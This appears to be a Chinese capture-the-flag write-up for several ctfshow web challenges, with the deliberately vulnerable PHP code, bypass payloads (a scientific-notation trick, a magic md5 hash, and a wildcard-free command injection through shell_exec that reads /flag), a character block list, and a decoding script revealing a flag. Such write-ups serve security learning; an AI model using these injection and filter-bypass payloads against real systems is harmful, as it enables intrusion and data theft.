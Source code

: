 ## web680
代码执行，没什么难度
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23087450/1641465374611-87dec341-e50c-4277-a19d-ce9b11a5bb4d.png)
secret那个文件下载下来就是flag

## web683
```php
<?php

   error_reporting(0);
   include "flag.php";
   if(isset($_GET['秀'])){
       if(!is_numeric($_GET['秀'])){
          die('必须是数字');
       }else if($_GET['秀'] < 60 * 60 * 24 * 30 * 2){
          die('你太短了');
       }else if($_GET['秀'] > 60 * 60 * 24 * 30 * 3){
           die('你太长了');
       }else{
           sleep((int)$_GET['秀']);
           echo $flag;
       }
       echo '<hr>';
   }
   highlight_file(__FILE__);
```
重点在第八行和第十行的判断，要求输入范围是5184000-7776000，满足条件的数会进入sleep，当然是不可能直接去输入一个数比如6000000，注意到第13行，在sleep前执行了一次int，所以考虑科学技术法绕过，比如变为6e6，这样int后执行的就是sleep(6)
payload：/?秀=6e6
## web761（$a==md5($a)）
0e215962017

## web779

```php
// /flag
function DefenderBonus($Pokemon){
    if(preg_match("/'| |_|\\$|;|l|s|flag|a|t|m|r|e|j|k|n|w|i|\\\\|p|h|u|v|\\+|\\^|\`|\~|\||\"|\<|\>|\=|{|}|\!|\&|\*|\?|\(|\)/i",$Pokemon)){
        die('catch broken Pokemon! mew-_-two');
    }
    else{
        return $Pokemon;
    }

}

function ghostpokemon($Pokemon){
    if(is_array($Pokemon)){
        foreach ($Pokemon as $key => $pks) {
            $Pokemon[$key] = DefenderBonus($pks);
        }
    }
    else{
        $Pokemon = DefenderBonus($Pokemon);
    }
}

switch($_POST['myfavorite'] ?? ""){
    case 'picacu!':
        echo md5('picacu!').md5($_SERVER['REMOTE_ADDR']);
        break;
    case 'squirtle':
        echo md5('jienijieni!').md5($_SERVER['REMOTE_ADDR']);
        break;
    case 'mewtwo':
        $dream = $_POST["dream"] ?? "";
        if(strlen($dream)>=20){
            die("So Big Pokenmon!");
        }
        ghostpokemon($dream);
        echo shell_exec($dream);
}
```

主要是第三行的过滤，可以使用od带出数据，通配符*？也过滤了，考虑之前无数字字母时的RCE，用[x-x]这种代替，

payload：``dream=od%09/f[b-z][Z-f]g&myfavorite=mewtwo``

```python
'''
Author: KonDream
Date: 2022-01-24 23:11:40
LastEditors:  KonDream
LastEditTime: 2022-01-24 23:37:37
Description:  
'''

a = ['072143','071546','067550','075567','034464','062463','032065','061062','032055','034070','026543','062064','062543','060455','033544','026542','034061','061545','060543','060471','061467','062062']

for i in a:
    hex_i = str(hex(int(i, 8))[2:])
    print(chr(int(hex_i[2:], 16)), end="")
    print(chr(int(hex_i[:2], 16)), end="")

# ctfshow{493e542b-488c-4dce-ad7b-18ecca9a7c2d}
```

对数据a需手动修正

